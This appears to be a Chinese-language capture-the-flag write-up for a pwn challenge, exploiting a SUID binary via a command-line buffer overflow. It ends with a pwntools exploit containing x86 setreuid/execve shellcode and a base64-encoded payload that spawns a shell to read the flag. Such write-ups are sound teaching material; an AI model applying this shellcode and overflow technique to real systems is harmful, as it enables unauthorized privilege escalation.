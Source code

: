 交互题目，先nc过去，发现就是一个命令行交互的终端

![image-20250602221551132](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602221551132.png)

直接cat flag.txt不可以

![image-20250602221633286](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602221633286.png)

查看文件权限

![image-20250602221702554](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602221702554.png)

发现vuln有suid ，以及flag.txt属于angel

考虑shellcode提权

例如下：

![f734143eb83eed7eb967e1055c6038b6](https://gitee.com/yigod/pictures/raw/master/imgs/f734143eb83eed7eb967e1055c6038b6.png)



逆向程序，发现vuln是命令行传参

![image-20250602221938136](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602221938136.png)

![image-20250602222121281](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602222121281.png)

溢出难度不大，但要考虑是命令行传参，所以用base64去实现

基址随机化是关闭了的，所以可用泄露的buf地址

![image-20250602222819342](https://gitee.com/yigod/pictures/raw/master/imgs/image-20250602222819342.png)

exp

```
from pwn import *
import time

# 远程连接配置
ip = ''
port = 

# ELF文件和目标缓冲区地址
#buf根据程序输出得到
buf = 

# shellcode
shellcode = (
    b'\x6a\x31\x58\x99\xcd\x80'                        # geteuid
    b'\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80'            # setreuid
    b'\xb0\x0b\x52\x68n/sh\x68//bi\x89\xe3\x89\xd1\xcd\x80'  # execve
)
# 构造参数 name 和 index
index = str(0x457)
name = p32(buf+4) + shellcode + b'a'*0x10
# 启动远程连接
p = remote(ip, port)
# 注意要进行 base64 编码或转义，因为 shellcode 中有不可见字符
import base64
name_encoded = base64.b64encode(name).decode()
payload = f'./vuln "$(echo {name_encoded} | base64 -d)" {index}'

# 发送payload
p.sendline(payload.encode())
p.sendline(b'cat flag.txt')  # 如果程序成功进入shell，执行cat命令
p.interactive()
```

